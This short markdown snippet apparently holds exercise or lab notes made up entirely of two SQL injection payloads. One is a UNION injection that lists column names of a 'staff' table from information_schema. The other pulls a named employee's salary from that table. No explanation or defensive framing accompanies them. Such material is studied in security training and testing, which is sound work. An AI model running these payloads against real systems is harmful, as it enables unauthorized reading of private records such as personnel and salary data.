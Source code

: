 # Get table data

```postgresql
'' UNION
SELECT column_name
FROM information_schema.columns
WHERE table_name='staff'
LIMIT 1 OFFSET 0;--
```

# Greta's Salary

```postgresql
'' UNION
SELECT salary
FROM staff
WHERE firstname LIKE '%_reta%'
LIMIT 1 OFFSET 0;--
```
